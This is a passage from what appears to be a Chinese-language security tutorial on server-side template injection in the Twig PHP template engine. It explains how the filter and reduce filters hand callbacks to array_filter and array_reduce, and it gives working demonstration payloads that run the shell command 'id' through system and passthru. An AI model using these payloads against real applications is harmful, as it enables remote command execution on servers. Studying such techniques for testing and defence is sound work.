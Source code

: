 根据源码可得，`$array` 和 `$arrow` 将作为参数直接传递给 `array_filter()` 函数。该函数可以使用回调函数过滤数组中的元素。如果我们自定义一个恶意的回调函数，可能会导致代码执行或命令执行等安全问题。

array\_filter() 函数用回调函数过滤数组中的值。

```php
array_filter(array,callbackfunction);
```

| 参数 | 描述 |
|---|---|
| *array* | 必需。规定要过滤的数组。 |
| *callbackfunction* | 必需。规定要使用的回调函数。 |

array可以作为*callbackfunction*得参数来执行，

演示payload：

```php
{{["id"]|filter("system")}}
{{["id"]|filter("passthru")}}
```

##### reduce 过滤器

`reduce` 过滤器使用箭头函数迭代地将序列或映射中的多个元素缩减为单个值。箭头函数接收上一次迭代的返回值和序列或映射的当前值：

```php
{% set numbers = [1, 2, 3] %}
{{ numbers|reduce((carry, v) => carry + v) }}
```

编译结果

```php
<?php
echo twig_reduce_filter($this->env, $context["numbers"], function ($carry, $v) { return $carry + $v; });
?>
```

我们发现和map过滤器一样，同样将输入的变量引导了twig\_reduce\_filter中

下面是reduce中有关twig\_reduce\_filter函数的源码

```php
function twig_reduce_filter($array, $arrow, $initial = null)
{
    if (!\is_array($array)) {
        $array = iterator_to_array($array);
    }

    return array_reduce($array, $arrow, $initial);    
}
```

$array, $arrow 和 $initial 直接被 array\_reduce 函数调用`array_reduce` 函数可以发送数组中的值到用户自定义函数，并返回一个字符串。如果我们自定义一个危险函数，将造成代码执行或命令执行。
